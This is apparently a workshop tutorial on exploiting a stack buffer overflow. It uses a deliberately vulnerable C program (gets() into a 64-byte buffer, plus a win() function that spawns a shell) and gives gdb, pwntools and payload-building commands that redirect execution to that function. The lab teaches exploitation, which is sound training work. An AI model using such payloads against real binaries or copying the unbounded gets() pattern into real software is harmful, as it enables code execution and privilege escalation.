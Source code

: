# Buffer Overflow: Practice

1. Consider the following *vulnerable* code

    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void win() {
        system("/bin/sh");
    }

    void vuln() {
        char buffer[64];
        gets(buffer);
    }

    int main() {
        // Disable input and output buffering
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stdin, NULL, _IONBF, 0);

        puts("Guess my name");
        vuln();
        puts("Wrong!");

        return 0;
    }
    ```

1. As explained previously, the local array `buffer` will be placed on the stack (assuming 32-bit memory addressing and 1-byte chars).

    ![buf](buf.png)

1. Problem: `gets` function doesn't do bounds checking
    - A regular user may enter more data than the buffer can handle
        - This will effectively overwrite the values for `saved_ebp` and `ret_addr`.
        - The `ret` instruction will then redirect the `eip` to whatever address specified in the overwritten `ret_addr`, which will typically crash the program
    - A malicious user may carefully redirect program execution to a shellcode.
        - This can give them control of the machine where the binary is executed.
        - On a local machine, this doesn't seem critical, but if the binary is hosted on a remote machine, this exploit may provide Remote Code Execution (RCE).
        - Furthermore, if the binary has the `setuid` bit, the obtained shell will have `root` access, providing means for privilege escalation.

1. Goal: to craft a payload that carefully overwrites the `ret_addr` to jump to the `win` function after `vuln` is executed.

## Practice

1. A precompiled 32-bit binary of the above code is provided (the binary is compiled with flags `-m32 -fno-stack-protector -z execstack` to make exploitation possible)

    ```bash
    wget http://renderer:10082/workshop/content/sample
    sudo chmod +x ./sample
    ```

1. Before going further, it helps to check some security features of the binary (install the tool first with `apt`)

    ```bash
    checksec sample
    ```

1. Debug the binary in GDB, provide some small test input.

    ```bash
    gdb -q sample
    run
    ```

1. For a large enough input, we can overwrite the stack. To determine padding length, we can use [`pwn.cyclic`](https://docs.pwntools.com/en/stable/commandline.html#pwn-cyclic) from [pwntools](https://github.com/Gallopsled/pwntools) to generate a 100-character [De Brujin Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) (notice how any substring of length `n=4` doesn't repeat)

    ```bash
    sudo apt install python3-pwntools
    pwn cyclic 100
    ```

1. Provide the cyclic string as an input to the program in `gdb` and inspect the `EIP` value as the program crashes. GDB should generally show something like this when the target address is invalid

    ```text
    Program received signal SIGSEGV, Segmentation fault.
    0xdeadbeef in ?? ()
    ```

1. Lookup the value to understand the padding length (`L`) after which the `ret_addr` starts to get overwritten.

    ```shell
    pwn cyclic -l <addr>
    ```

1. Construct the payload: `L` characters to fill the buffer, followed by a little-endian representation of the `ret_addr` to jump to. Here are two ways to construct a payload that jumps to `0xfee1dead`.

    ```shell
    echo -en 'AAAAAA...AAAAAAA\xad\xde\xe1\xfe' > payload
    ```

    ```shell
    python3 -c "import sys; sys.stdout.buffer.write(N * b'\x41' + b'\xad\xde\xe1\xfe')" > payload
    ```

1. We can get the address of the target function in `gdb` with `disas win` or by inspecting the symbol table

    ```bash
    readelf -s sample | grep win
    ```

1. Run the payload to get a shell (the `-` is needed to keep the pipe open after the payload is executed to enable interaction with the shell).

    ```bash
    cat payload - | ./sample
    ```

> **Note**: when supplying the payload in gdb like `run < payload`, you may get a message like `[Detaching after vfork from child process NNNN]`: this is because gdb won't track both parent and child processes. It's common to test payloads in GDB, but run the exploit outside or from Python.
